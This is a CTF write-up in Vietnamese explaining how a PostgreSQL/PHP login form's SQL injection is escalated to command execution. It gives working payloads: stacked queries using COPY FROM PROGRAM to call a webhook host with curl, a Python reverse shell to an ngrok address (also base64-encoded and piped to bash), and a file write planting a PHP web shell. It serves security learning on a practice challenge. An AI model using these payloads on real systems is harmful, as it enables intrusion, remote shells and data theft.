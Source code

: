 ```yaml
---
title: "[WRITEUP] Baby SQL Injection to RCE - COOKIE ARENA"
categories:
- CTF Writeup
- Cookie Arena
tags:
- SQLi
date: '2024-07-10 14:30:00'
---
```


## Intro
Link Challenge: [here](https://battle.cookiearena.org/challenges/web/baby-sql-injection-to-rce){:target="\_blank"}

Mô tả: 
```
This is because traditional SQL injection techniques. Could you execute command?

The challenge is running in PostgreSQL and PHP.

Flag File: /flagXXXX.txt
Flag Format: CHH{XXX}
```
## Exploit
Mới đầu vào xuất hiện 1 trang login:

![Login Page](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/1.png)

Source code:
```php
<?php
  include_once('./ignore/design/design.php');
  $design = Design(__FILE__, 'Basic Web');

  include('config.php');
  $message = "";
  
  if ($_SERVER["REQUEST_METHOD"] == "POST") {
      $username = trim($_POST['username']);
      $password = trim($_POST['password']);
  
      // Truy vấn kiểm tra tên người dùng và mật khẩu
      $sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";
      $result = pg_query($conn, $sql) or die(pg_last_error());

      if (pg_num_rows($result) > 0) {
        $message = "Welcome, $username!";
      } else {
        $message = "Invalid username or password!";
      }
  }
?>
<html>
  <head>
    <title>Basic Login</title>
  </head>
  <body>
    <?php if(strlen($message) > 0) { echo $message; } else { ?>
    <div>
        <h2>Login</h2>
        <form action="/index.php" method="post">
          
            <div class="form-group">
                <label for="username">Username:</label>
                <input type="text" class="form-control" id="username" name="username">
            </div>
            <div class="form-group">
                <label for="pwd">Password:</label>
                <input type="password" class="form-control" id="pwd" name="password">
            </div>
            <button type="submit" class="btn btn-primary">Login</button>
        </form>
    </div>
    <?php } ?>

    <div>
      <?php echo $design; ?>  
    </div>    
  </body>
</html>
```

Trước hết, đọc source code ta thấy được câu truy vấn `$sql = "SELECT * FROM users WHERE username='$username' AND password='$password'";`. Trigger sqli 1 mệnh đề đúng => nảy sang 1 trang welcome, Ngược lại trả về "Incorrect Username or Password" ==> Blind SQLi.
![Welcome](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/2.png)

Như cái tiêu đề và mô tả, chúng ta phải khai thác SQL injection to RCE vì flag nằm trong file hệ thống chứ không nằm trong db. 2 ý tưởng nảy trong đầu của tui:
1. Liệu có câu lệnh sql của PostgreSQL nào giúp ta thực thi os command hay không?
2. Liệu có thư mục nào mà ta có quyền ghi file? Từ đó up webshell bằng SQL?

Nhưng, trong câu truy vấn gốc với mệnh đề select thì ta không làm được gì nhiều. Vậy liệu còn cách nào khác giúp ta có thể chạy nguyên vẹn 1 sql command để có thể làm được nhiều thứ hơn? Có một khái niệm cho phép ta làm điều này [Stack Queries](https://cookiearena.org/penetration-testing/stacked-query-trong-sql-injection/){:target="\_blank"}.

![Stack Queries](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/3.png)

Vậy là confirm rằng psql có support Stacked Queries.

### Vector 1: Execute OS command via SQL
Sau một hồi research docs của postgresql, tui tìm được [cái này](https://www.postgresql.org/docs/current/sql-copy.html#:~:text=the%20path%20name.-,PROGRAM,string%2C%20or%20at%20least%20avoid%20including%20any%20user%20input%20in%20it,-.){:target="\_blank"}.
 
 `COPY FROM PROGRAM` giúp ta thực hiện vector 1 mà tui đưa ra. 

- Bắt đầu với việc tạo 1 table.
```text
';CREATE TABLE shell(output text);-- -
```

![Create Table](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/4.png)

- Sử dụng PROGRAM để thiết lập command. Test payload:
```text
'; COPY shell FROM PROGRAM 'curl https://webhook.site/de60c29f-ebc7-4f64-8851-09f08950387e/res=`id`';-- -
```

![Test exec command](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/5.png)

Sure là payload của ta hoạt động. RCE thoaii

![RCE](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/6.png)

Giải thích một chút payload:
- Đầu tiên, biết server đang chạy python3, nên tui dùng payload reverse shell này:
```
export RHOST="0.tcp.ap.ngrok.io";export RPORT=19890;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

- Tiếp đến, để vận chuyển payload 1 cách mượt mà, tui base64 lại và dùng pipeline để xử lý payload. Full payload nè:
```
'; COPY shell FROM PROGRAM 'echo "ZXhwb3J0IFJIT1NUPSIwLnRjcC5hcC5uZ3Jvay5pbyI7ZXhwb3J0IFJQT1JUPTE5ODkwO3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oInNoIikn" | base64 -d | /bin/bash';-- -
```

### Vector 2: Upload shell via SQL

- Thứ nhất, điều kiện tiên quyết là upload ở đâu đó trong document-root để có thể thực thi file php? 
- Và thư mục đó có quyền ghi cho user postgres hay không?

Thực hiện dirsearch endpoint của website thì phát hiện ra 1 số thứ hay ho:

![dirsearch](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/7.png)

Trang phpinfo cho ta biết được một số thông tin quan trọng như document_root. 

![phpinfo](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/8.png)

Thư mục upload

![upload](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/9.png)


Thư mục upload/ và document_root là 2 keys chính cho giả thiết 2 này. 

Việc còn lại là craft 1 payload để ghi file, cụ thể hơn là file php (để chứng minh thư mục file php có được thực thi hay không).

```
'; CREATE TEMPORARY TABLE temp_results(a VARCHAR(255)); INSERT INTO temp_results (a) VALUES ('<?php phpinfo(); ?>'); COPY temp_results TO '/www/upload/1.php' WITH (FORMAT CSV);-- -
```

![test payload](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/10.png)

Giải thích payload:
- Tạo 1 bảng tạm có 1 column để chèn payload.
- `COPY temp_results TO '/www/upload/1.php' WITH (FORMAT CSV);` câu lệnh giúp xuất toàn bộ content của table `temp_results` chứa payload vào 1 file trong hệ thống với absolute path (nếu cố tình chèn relative path sẽ gây ra lỗi) (đó cũng chứng minh rằng document_root là thông tin cần thiết cho vector này).

Thay payload phpinfo() bằng `<?php system($_GET[cmd]); ?>');` => RCE

![RCE](/assets/img/posts/Baby-SQL-Injection-to-RCE-CookieArena/11.png)